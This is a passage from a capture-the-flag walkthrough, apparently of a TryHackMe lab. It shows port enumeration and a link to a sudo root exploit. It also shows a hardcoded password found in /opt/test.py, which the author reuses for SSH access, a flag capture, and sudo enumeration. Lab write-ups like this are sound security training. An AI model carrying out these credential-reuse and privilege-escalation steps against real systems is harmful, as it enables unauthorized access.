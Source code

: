 ```
[-] Listening TCP:
State   Recv-Q   Send-Q     Local Address:Port      Peer Address:Port  Process  
LISTEN  0        128              0.0.0.0:22             0.0.0.0:*              
LISTEN  0        70             127.0.0.1:33060          0.0.0.0:*              
LISTEN  0        151            127.0.0.1:3306           0.0.0.0:*              
LISTEN  0        4096       127.0.0.53%lo:53             0.0.0.0:*              
LISTEN  0        128                 [::]:22                [::]:*              
LISTEN  0        511                    *:80                   *:* 
```
Now i will try to exploit the sudo version
https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit.git 
Not work


## 2nd approch
the /opt is also important in CTFs.
found 2 files

```
www-data@dreaming:/opt$ ls
ls
getDreams.py  test.py
www-data@dreaming:/opt$ 
www-data@dreaming:/opt$ cat test.py
cat test.py
import requests

#Todo add myself as a user
url = "http://127.0.0.1/app/pluck-4.7.13/login.php"
password = "HeyLucien#@1999!"

data = {
        "cont1":password,
        "bogus":"",
        "submit":"Log+in"
        }

req = requests.post(url,data=data)

if "Password correct." in req.text:
    print("Everything is in proper order. Status Code: " + str(req.status_code))
else:
    print("Something is wrong. Status Code: " + str(req.status_code))
    print("Results:\n" + req.text)
```
I just found lucien password, so i will connect on ssh `HeyLucien#@1999!`
```
lucien@dreaming:~$ ls
lucien_flag.txt
lucien@dreaming:~$ cat *
THM{TH3_L1BR4R14N}
lucien@dreaming:~$ 

```
I will try to connect on the mysql using these creds
```
lucien@dreaming:/home$ mysql -u lucien -h localhost -p
Enter password: 
ERROR 1045 (28000): Access denied for user 'lucien'@'localhost' (using password: YES)
lucien@dreaming:/home$ 
```
Not work but
```
lucien@dreaming:/home$ sudo -l
Matching Defaults entries for lucien on dreaming:
```
